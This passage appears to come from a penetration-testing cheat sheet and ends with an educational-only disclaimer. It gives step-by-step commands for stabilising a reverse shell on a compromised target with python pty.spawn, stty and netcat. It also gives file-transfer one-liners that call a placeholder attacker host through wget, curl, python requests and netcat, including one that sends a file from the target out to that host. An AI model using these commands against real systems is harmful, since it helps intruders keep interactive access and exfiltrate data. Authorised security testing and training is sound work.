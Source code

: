 Once you have a basic shell, it's often unstable (no tab completion, no arrow keys). You can stabilize it.

1.  **On the target machine (after getting the initial shell):**
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
    (If `python` isn't available, try `python3` or `script /dev/null -c bash`)

2.  **On your attacking machine (in the listener, after the `pty.spawn` command):**
    * Press `Ctrl+Z` to background the `netcat` process.
    * Type:
        ```bash
        stty raw -echo; fg
        ```
    * Press `Enter` twice.

3.  **On the target machine (still in the shell):**
    ```bash
    export TERM=xterm
    stty rows <YOUR_ROWS> columns <YOUR_COLS>
    ```
    (Replace `<YOUR_ROWS>` and `<YOUR_COLS>` with your terminal's dimensions, e.g., `stty rows 24 columns 80`). You can find these by typing `stty -a` on your attacking machine or by resizing your terminal.

---

## File Transfer

### Attacker (serving file)
```bash
# Using Python 3 HTTP server
python3 -m http.server 8000

# Using Netcat (less reliable for large files)
nc -lvnp <PORT> > received_file.txt
```

### Target (downloading file)
```bash
# Using Wget
wget http://<ATTACKER_IP>:<PORT>/file_to_download.txt

# Using Curl
curl http://<ATTACKER_IP>:<PORT>/file_to_download.txt -o downloaded_file.txt

# Using Python (if wget/curl not available)
python -c 'import requests; r = requests.get("http://<ATTACKER_IP>:<PORT>/file.txt"); open("file.txt", "wb").write(r.content)' # Python 2
python3 -c 'import requests; r = requests.get("http://<ATTACKER_IP>:<PORT>/file.txt"); open("file.txt", "wb").write(r.content)' # Python 3

# Using Netcat (sending file)
nc <ATTACKER_IP> <PORT> < file_to_send.txt
```

---

**Disclaimer:** This cheat sheet is for educational purposes only. Unauthorized access to computer systems is illegal and unethical. Always ensure you have explicit permission before attempting any of these techniques.